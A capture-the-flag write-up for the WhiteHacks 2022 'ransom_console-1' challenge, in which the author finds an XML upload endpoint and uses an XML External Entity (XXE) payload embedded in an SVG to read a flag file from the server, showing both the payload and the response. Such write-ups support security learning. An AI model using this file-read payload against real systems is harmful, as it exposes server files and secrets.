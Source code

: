 # ransom_console-1

When we enter this website, we see a login page. We don't get much info from developer tools either.

When we check `robots.txt`, we get

    User-agent: *
    Disallow: /upload /dashboard
    
Upon checking `/dashboard`, we see that the page doesn't exist. However, when we check `/upload`, we are redirected to a file upload page. When just uploading a random txt file, an internal server error occurs, and that we are redirected to http://challenges1.whitehacks.xyz:5001/xml-parse. From this we can infer that the website only allows us to upload an xml file. A quick google lead me to infer that this challenge involves a XML External Entity (XXE) Injection attack. Another quick google resulted in me finding [this](https://gupta-bless.medium.com/exploiting-xxe-via-file-upload-f6e62153e85d) medium article which gave me a XXE payload which lets us fetch another file in the website directory. After changing the payload to fetch the file at `/home/r4s0m_4d1m1n/flag.txt`, we get this payload:

    <?xml version="1.0" standalone="yes"?>
    <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///home/r4s0m_4d1m1n/flag.txt" > ]>
    <svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
    <text font-size="16" x="0" y="16">&xxe;</text>
    </svg>
    
We upload this xml file and the website returns us this:

    <svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="128px" height="128px" version="1.1">
      <text font-size="16" x="0" y="16">WH2022{SSH_KeY5_ST0L3n_8y_U5}</text> 
    </svg>
    
Flag:
>WH2022{SSH_KeY5_ST0L3n_8y_U5}
